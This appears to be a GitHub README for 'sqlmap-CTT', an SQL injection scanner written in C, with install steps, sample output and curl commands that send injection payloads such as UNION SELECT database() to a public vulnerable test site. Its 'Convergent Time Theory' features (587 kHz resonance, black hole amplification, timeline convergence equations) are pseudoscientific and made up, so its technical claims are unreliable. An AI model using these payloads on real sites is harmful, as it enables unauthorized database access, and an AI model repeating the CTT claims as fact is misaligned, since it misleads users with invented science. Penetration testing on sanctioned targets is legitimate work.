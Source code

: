 sqlmap-CTT
==========

sqlmap-CTT is an advanced SQL injection testing tool enhanced with Convergent Time Theory (CTT) principles. It extends the functionality of the open-source sqlmap project by integrating CTT-based techniques for payload generation, vulnerability detection, and database enumeration. Built in C, sqlmap-CTT leverages 587 kHz resonance timing, hardware entropy, timeline convergence, and black hole amplification to prioritize high-impact vulnerabilities.

Features
--------
- **Parameter Discovery**: Automatically identifies GET and POST parameters from URLs and HTML forms.
- **Multiple SQLi Techniques**: Supports error-based, boolean-based, time-based, and union-based SQL injection testing.
- **Database Enumeration**: Extracts database names, tables, columns, and data using targeted payloads.
- **CTT Integration**:
  - **Payload Generation**: Uses hardware entropy (/dev/urandom) for dynamic payloads (Equation 2).
  - **Vulnerability Detection**: Weights vulnerabilities with T-field (Equation 7) and convergence (Equation 4).
  - **Enumeration Prioritization**: Prioritizes queries with mass modulation (Equation 10).
- **Real HTTP Requests**: Uses libcurl for robust HTTP GET and POST requests.
- **RPM Packaging**: Builds and installs on Fedora 42 (kernel 6.16.7-200.fc42.x86_64).

Installation
------------
1. **Prerequisites**:
   Ensure you have `gcc`, `make`, `libcurl-devel`, and `rpm-build` installed:
   ```bash
   sudo dnf install -y gcc make libcurl-devel rpm-build
   ```

2. **Clone the Repository**:
   ```bash
   git clone https://github.com/consciousness-project/sqlmap-ctt.git
   cd sqlmap-ctt
   ```

3. **Run the Setup Script**:
   The provided `setup_sqlmap_ctt.sh` script automates the build and installation process:
   ```bash
   chmod +x setup_sqlmap_ctt.sh
   ./setup_sqlmap_ctt.sh
   ```
   This script:
   - Cleans the project directory.
   - Generates source files, headers, Makefile, and RPM spec.
   - Builds the binary and installs it to `/usr/bin/sqlmap-ctt`.
   - Creates and installs RPM packages (`sqlmap-ctt` and `sqlmap-ctt-utils`).

4. **Verify Installation**:
   ```bash
   ls -l /usr/bin/sqlmap-ctt
   rpm -q sqlmap-ctt sqlmap-ctt-utils
   ```
   Expected output:
   ```
   -rwxr-xr-x 1 root root <size> Sep 14 2025 /usr/bin/sqlmap-ctt
   sqlmap-ctt-1.0.0-1.fc42.x86_64
   sqlmap-ctt-utils-1.0.0-1.fc42.x86_64
   ```

Usage
-----
Run sqlmap-CTT with a target URL:
```bash
sqlmap-ctt http://testphp.vulnweb.com/search.php?test=query
```

**Example Output**:
```
Initializing libcurl...
Initializing CTT resonance...
Testing parameter: searchFor
Sending GET request to: http://testphp.vulnweb.com/search.php?test=query&searchFor=%27%20OR%201234567890123456789%20--&goButton=go
Response time for payload 0: 0.309 seconds
SQLi vulnerability detected in payload 0: ' OR 1234567890123456789 --
[...]
Sending POST request with data: searchFor=' OR 1234567890123456789 --&goButton=go
Response time for payload 10: 0.305 seconds
Boolean-based SQLi vulnerability detected in payload 10: ' OR 1234567890123456789=0 --
[...]
Enumerating database for parameter: searchFor
Enumerating with GET: http://testphp.vulnweb.com/search.php?test=query&searchFor=%27%20UNION%20SELECT%20NULL%2C%20database%28%29%2C%20NULL%20--&goButton=go
Enumeration result: acuart
Enumerating with POST data: searchFor=' UNION SELECT NULL, database(), NULL --&goButton=go
POST enumeration result: acuart
[...]
Analyzing convergence...
Convergence score: <value>
Prioritizing payloads for parameter: searchFor
High-impact payload: ' OR 1234567890123456789 -- (amplified response: <value>, T-field: <value>, vulnerable: yes)
[...]
Skipping submit parameter: goButton
```

CTT Integration
---------------
sqlmap-CTT incorporates Convergent Time Theory (CTT) to enhance performance:
- **587 kHz Resonance (Equation 9)**: `f_res = (α / (2π)) * √((m_T c^2) / E_P)` for precise timing.
- **Convergence Coefficient (Equation 2)**: `c(ξ) = e^{-ξ^2}` for timeline convergence.
- **Mass Modulation (Equation 10)**: `m(f) = m_0 * [1 + 0.17 * exp(-(f - f_res)^2 / (2σ^2))]` for query prioritization.
- **Temporal Wavefunction (Equation 4)**: `Ψ(t) = ∫_{0}^{1} c(ξ) ψ(t, ξ) dξ` for response analysis.
- **T-Field Equation (Equation 7)**: `χ = response_time * g + κ_E * ψ` for vulnerability weighting.

Dependencies
------------
- **libcurl**: For HTTP requests.
- **glibc**: For standard C library functions.
- **gcc**, **make**, **libcurl-devel**, **rpm-build**: For building and packaging.

License
-------
sqlmap-CTT is licensed under the GNU General Public License v2.0 or later. See the `LICENSE` file for details.

Troubleshooting
---------------
1. **Parameters Skipped**:
   Debug the `parse_form_parameters` function:
   ```bash
   gdb --args sqlmap-ctt http://testphp.vulnweb.com/search.php?test=query
   (gdb) break parse_form_parameters
   (gdb) run
   (gdb) print params[*param_count].name
   (gdb) print params[*param_count].is_submit
   ```
   Check HTML:
   ```bash
   curl -o response.html http://testphp.vulnweb.com
   grep "<input" response.html
   ```

2. **Enumeration Fails**:
   Verify the endpoint:
   ```bash
   curl -I http://testphp.vulnweb.com/search.php?test=query
   ```
   Test manually:
   ```bash
   curl -X POST -d "searchFor=' UNION SELECT NULL, database(), NULL --&goButton=go" http://testphp.vulnweb.com/search.php?test=query
   ```

3. **False Positives**:
   Check response content:
   ```bash
   curl -o response.html "http://testphp.vulnweb.com/search.php?test=query&searchFor=%27%20OR%201=1%20--&goButton=go"
   grep -i "sql syntax\|mysql_fetch\|database error" response.html
   ```

4. **libcurl Issues**:
   Verify `libcurl`:
   ```bash
   curl --version
   ```
   Check network:
   ```bash
   ping -c 4 testphp.vulnweb.com
   ```

Contributing
------------
Contributions are welcome! Please submit pull requests or issues to the GitHub repository: https://github.com/consciousness-project/sqlmap-ctt

Contact
-------
For questions or support, contact Americo Simoes at developer@consciousness.ai.
